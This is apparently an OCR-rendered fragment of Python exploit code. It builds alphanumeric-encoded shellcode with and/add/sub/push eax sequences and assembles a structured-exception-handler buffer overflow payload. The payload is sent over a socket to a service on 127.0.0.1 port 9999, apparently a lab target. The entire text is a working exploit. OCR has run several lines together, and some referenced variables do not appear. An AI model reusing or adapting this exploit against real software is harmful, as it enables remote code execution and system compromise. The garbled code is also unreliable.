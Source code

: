 ```
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x13\x76\x41\x36" ## add  eax, 0x36417613
stage4 += "\x05\x23\x65\x42\x36" ## add  eax, 0x36426523
stage4 += "\x05\x13\x56\x41\x24" ## add  eax, 0x24415613
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x07\x02\x21\x55" ## add  eax, 0x55210207
stage4 += "\x05\x07\x01\x20\x54" ## add  eax, 0x54200107
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x63\x02\x21\x33" ## add  eax, 0x33210263
stage4 += "\x05\x64\x02\x10\x24" ## add  eax, 0x24100264
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x65\x61\x32\x42" ## add  eax, 0x42326165
stage4 += "\x05\x64\x50\x21\x41" ## add  eax, 0x41215064
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x54\x73\x16\x26" ## add  eax, 0x26167354
stage4 += "\x05\x43\x62\x15\x15" ## add  eax, 0x15156243
stage4 += "\x05\x43\x52\x13\x23" ## add  eax, 0x23135243
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x45\x73\x65\x13" ## add  eax, 0x13657345
stage4 += "\x05\x44\x74\x55\x03" ## add  eax, 0x03557444
stage4 += "\x50"                 ## push eaxpayload = ""
payload += vuln_command
payload += stage4
payload += "A" * (offset - len(stage1) - 73 - len(stage4))
payload += stage3
payload += "B" * (73 - len(stage3))
payload += stage1
payload += seh
payload += "C" * 2
payload += stage2
payload += "C" * (crash - 4 - offset - 2 - len(stage2))print "[+] Sending buffer (Size: %d)" % len(payload)s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9999))
print(s.recv(1024))
s.send(payload)
s.close()
```
